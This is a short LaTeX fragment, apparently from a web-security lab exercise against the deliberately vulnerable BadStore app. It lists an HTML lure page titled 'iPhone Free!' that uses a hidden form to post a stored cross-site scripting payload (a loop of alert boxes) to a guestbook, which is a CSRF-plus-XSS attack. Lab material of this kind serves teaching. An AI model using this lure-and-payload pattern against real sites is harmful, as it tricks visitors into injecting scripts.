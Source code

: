 \begin{enumerate}
	\begin{itemize}
		\item Write a simple page containing these code:
		\par
		\begin{lstlisting}[language=HTML,numbers=left,numberstyle=\tiny,columns=fullflexible,basicstyle=\footnotesize\ttfamily]
<!DOCTYPE html>
<html>
<head>
	<title>iPhone Free!</title>
</head>
<body>
	<FORM METHOD="POST" ACTION="http://10.0.2.5/cgi-bin/badstore.cgi?action=doguestbook">
		<INPUT TYPE=hidden NAME=name value="<script>for(var i=0;i<10000;i++){alert();}</script>" SIZE=30>
		<INPUT TYPE=hidden NAME=email value="1" SIZE=40>
		<TEXTAREA style="display:none" NAME=comments COLS=60 ROWS=4 value="aaa"> </TEXTAREA>
		<INPUT TYPE=submit VALUE="Get Now!">  
		<INPUT style="display:none" TYPE=reset></Center>
	</FORM>
</body>
</html>


\end{lstlisting}
\end{itemize}
\end{enumerate}
